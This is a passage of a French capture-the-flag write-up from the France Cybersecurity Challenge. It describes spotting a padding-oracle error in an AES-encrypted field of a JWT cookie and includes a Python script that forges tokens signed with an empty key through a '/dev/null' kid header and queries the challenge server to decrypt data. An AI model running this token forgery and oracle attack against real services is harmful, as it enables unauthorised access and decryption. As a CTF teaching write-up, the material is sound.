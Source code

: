 ![alt](Images/3.png)

Cela ne m'a pas servi à grand chose, j'ai ensuite décidé de changer un des caractères présents dans enciphered_payload, de signer le token (avec une chaîne vide) et d'actualiser la page du challenge :

![alt](Images/4.png)

Cette erreur est très intéressante, en effet, selon mon hypothèse, nos informations (test/test) doivent être contenues dans enciphered_payload. Cette erreur de padding me fait penser que, enciphered_payload est en fait nos informations chiffrées avec l'algorithme AES (Advanced Encryption Standard).

Avec cette erreur de padding, je sais qu'il est possible de retrouver le plaintext qui a été chiffré avec AES. J'ai donc cherché un script sur internet capable de faire cela et j'ai trouvé cette [librarie](https://github.com/mwielgoszewski/python-paddingoracle) capable de réaliser l'attaque. 

J'ai dû modifier le script réalisant l'attaque car il envoyait directement l'AES, alors que pour nous, il est dans un JSON Web Token :

```py
from paddingoracle import BadPaddingException, PaddingOracle
from base64 import b64encode, b64decode
from urllib import quote, unquote
import requests
import socket
import time
import jwt
import sys
payload = {
    "sub": "🍪🍪🍪",
    "exp": 1619976113,
    "enciphered_payload": ""
}

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.session = requests.Session()
        self.wait = kwargs.get('wait', 2.0)

    def oracle(self, data, **kwargs):
        hexdata = ''.join('{:02x}'.format(x) for x in data)
        payload["enciphered_payload"] = hexdata
        strange = jwt.encode(payload,"",algorithm="HS512",headers={"kid":"/dev/null"}).decode()
        self.session.cookies['strange_cookie'] = strange

        while 1:
            try:
                response = self.session.get('http://challenges2.france-cybersecurity-challenge.fr:5004/',
                        stream=False, timeout=5, verify=False)
                break
            except (socket.error, requests.exceptions.RequestException):
                logging.exception('Retrying request in %.2f seconds...',
                                  self.wait)
                time.sleep(self.wait)
                continue

        self.history.append(response)

        if "padding" not in response.text:
            logging.debug('No padding exception raised on %r', data)
            return
        
        raise BadPaddingException
```